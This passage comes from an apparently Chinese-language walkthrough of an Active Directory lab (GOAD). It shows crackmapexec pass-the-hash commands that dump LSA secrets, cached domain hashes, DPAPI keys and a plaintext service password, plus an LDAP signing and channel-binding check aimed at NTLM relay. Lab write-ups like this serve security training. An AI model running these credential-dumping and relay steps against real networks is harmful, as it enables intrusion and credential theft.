DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
ESSOS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
ESSOS\BRAAVOS$:plain_password_hex:edac40d9659b8ff518930713a28b8c320ac028f62422b9cc827e8c168e3724e385101235ccbf681865fa403b7ed147ab9cca05df1af00224002c4bc55c5981287c7ad9d861d32e5ea1e3dc3909792e414a3d80de6580867a5b9d43d8cb06e18a7546a9a20ad16addd7a96be91cb4cd0ec6753f9e9807fe9c4c0209bb7a2d5c4e61113548fe74158e0d81e3f80a1bc9f1e9467c231ae98553d952edf7754a0e0a2671284efee120f0a8ad398566d12bf8ebd77b2b701f2b4f73d8958f0c1736b5bbd3a709d2dbc1c06d0e406d6e17f7e8401de0f1fb53434ecf298bf091217dd9a4d5b13e8cfc5bf67dcbcf759ac8a3b0
ESSOS\BRAAVOS$:aad3b435b51404eeaad3b435b51404ee:8e041276acf964a317f358c9d7fa71fd:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x15a98c9d9a40dbd9f71472cc20e6ed21046177d8
dpapi_userkey:0x1935d54fb2e3d629e6dbf76dbc988c08a31529a2
[*] NL$KM 
 0000   26 72 00 BB 64 CB DD D7  34 20 B4 AC 7E 9A 99 05   &r..d...4 ..~...
 0010   75 95 40 EF C7 ED 72 3E  F4 66 93 E7 3D C9 B8 56   u.@...r>.f..=..V
 0020   EC E8 6E 4E 40 13 86 34  A8 F6 E6 36 C6 71 9F 7A   ..nN@..4...6.q.z
 0030   8F 63 A3 23 D9 37 A0 BC  07 C0 0B 06 41 21 5E 64   .c.#.7......A!^d
NL$KM:267200bb64cbddd73420b4ac7e9a9905759540efc7ed723ef46693e73dc9b856ece86e4e40138634a8f6e636c6719f7a8f63a323d937a0bc07c00b0641215e64
[*] _SC_MSSQL$SQLEXPRESS 
essos.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

```bash
 sudo crackmapexec smb 192.168.56.23 --local-auth -u "Administrator" -H "492c19fde6db57a251bf44c2b756ec3b" --lsa
```

```bash
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:BRAAVOS) (signing:False) (SMBv1:True)
SMB         192.168.56.23   445    BRAAVOS          [+] BRAAVOS\Administrator:492c19fde6db57a251bf44c2b756ec3b (Pwn3d!)
SMB         192.168.56.23   445    BRAAVOS          [+] Dumping LSA secrets
SMB         192.168.56.23   445    BRAAVOS          ESSOS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:aes256-cts-hmac-sha1-96:8e8bb65ebc790bb9fdc708b1f83619a2afed6a7d87c1579058f274d1e1e6f525
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:aes128-cts-hmac-sha1-96:81f102359f39be3303cbd6f3cccd0180
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:des-cbc-md5:f8945bc16b85cea1
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:plain_password_hex:edac40d9659b8ff518930713a28b8c320ac028f62422b9cc827e8c168e3724e385101235ccbf681865fa403b7ed147ab9cca05df1af00224002c4bc55c5981287c7ad9d861d32e5ea1e3dc3909792e414a3d80de6580867a5b9d43d8cb06e18a7546a9a20ad16addd7a96be91cb4cd0ec6753f9e9807fe9c4c0209bb7a2d5c4e61113548fe74158e0d81e3f80a1bc9f1e9467c231ae98553d952edf7754a0e0a2671284efee120f0a8ad398566d12bf8ebd77b2b701f2b4f73d8958f0c1736b5bbd3a709d2dbc1c06d0e406d6e17f7e8401de0f1fb53434ecf298bf091217dd9a4d5b13e8cfc5bf67dcbcf759ac8a3b0
SMB         192.168.56.23   445    BRAAVOS          ESSOS\BRAAVOS$:aad3b435b51404eeaad3b435b51404ee:8e041276acf964a317f358c9d7fa71fd:::
SMB         192.168.56.23   445    BRAAVOS          dpapi_machinekey:0x15a98c9d9a40dbd9f71472cc20e6ed21046177d8
dpapi_userkey:0x1935d54fb2e3d629e6dbf76dbc988c08a31529a2
SMB         192.168.56.23   445    BRAAVOS          NL$KM:267200bb64cbddd73420b4ac7e9a9905759540efc7ed723ef46693e73dc9b856ece86e4e40138634a8f6e636c6719f7a8f63a323d937a0bc07c00b0641215e64
SMB         192.168.56.23   445    BRAAVOS          essos.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
SMB         192.168.56.23   445    BRAAVOS          [+] Dumped 9 LSA secrets to /root/.cme/logs/BRAAVOS_192.168.56.23_2023-08-07_053439.secrets and /root/.cme/logs/BRAAVOS_192.168.56.23_2023-08-07_053439.cached
```

### 补充

通过crackmapexec来查看ldaps是否开启签名和通道绑定

```bash
sudo crackmapexec ldap 192.168.56.10-12  -u robb.stark -p "sexywolfy" -d "north.sevenkingdoms.local" -M ldap-checker
```

```bash
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:True)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP        192.168.56.12   389    MEEREEN          [+] north.sevenkingdoms.local\robb.stark:sexywolfy 
LDAP        192.168.56.10   389    KINGSLANDING     [+] north.sevenkingdoms.local\robb.stark:sexywolfy 
LDAP-CHE... 192.168.56.12   389    MEEREEN          LDAP Signing NOT Enforced!
LDAP        192.168.56.11   389    WINTERFELL       [+] north.sevenkingdoms.local\robb.stark:sexywolfy 
LDAP-CHE... 192.168.56.10   389    KINGSLANDING     LDAP Signing NOT Enforced!
LDAP-CHE... 192.168.56.11   389    WINTERFELL       LDAP Signing NOT Enforced!
LDAP-CHE... 192.168.56.12   389    MEEREEN          Channel Binding is set to "NEVER" - Time to PWN!
LDAP-CHE... 192.168.56.10   389    KINGSLANDING     Channel Binding is set to "NEVER" - Time to PWN!
LDAP-CHE... 192.168.56.11   389    WINTERFELL       Channel Binding is set to "NEVER" - Time to PWN!
```

目前攻克机器：

* north.sevenkingdoms.local
* castelblack.north.sevenkingdoms.local
* braavos.essos.local

参考链接：

<https://en.hackndo.com/ntlm-relay/>

<https://www.thehacker.recipes/ad/movement/ntlm/relay>
